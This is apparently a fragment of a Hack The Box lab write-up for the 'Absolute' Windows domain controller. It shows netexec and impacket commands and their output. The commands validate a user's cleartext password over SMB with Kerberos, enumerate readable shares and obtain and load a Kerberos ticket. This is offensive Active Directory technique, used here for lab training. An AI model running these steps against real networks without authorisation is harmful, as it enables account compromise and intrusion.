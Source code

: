 



```bash
❯ nxc smb 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl'
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\d.klay:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION 
❯ nxc smb 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl' -k
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl 
```





```bash
❯ nxc smb 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl' -k --shares
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl 
SMB         10.10.11.181    445    DC               [*] Enumerated shares
SMB         10.10.11.181    445    DC               Share           Permissions     Remark
SMB         10.10.11.181    445    DC               -----           -----------     ------
SMB         10.10.11.181    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.181    445    DC               C$                              Default share
SMB         10.10.11.181    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.181    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.181    445    DC               Shared                          
SMB         10.10.11.181    445    DC               SYSVOL          READ            Logon server share 
```





```bash
❯ impacket-getTGT absolute.htb/d.klay:Darkmoonsky248girl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in d.klay.ccache
❯ export KRB5CCNAME=$(pwd)/d.klay.ccache
❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Absolute/Absolute/content/d.klay.ccache
Default principal: d.klay@ABSOLUTE.HTB

Valid starting     Expires            Service principal
22/01/25 02:29:08  22/01/25 06:29:08  krbtgt/ABSOLUTE.HTB@ABSOLUTE.HTB
	renew until 22/01/25 06:29:08, Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 
```

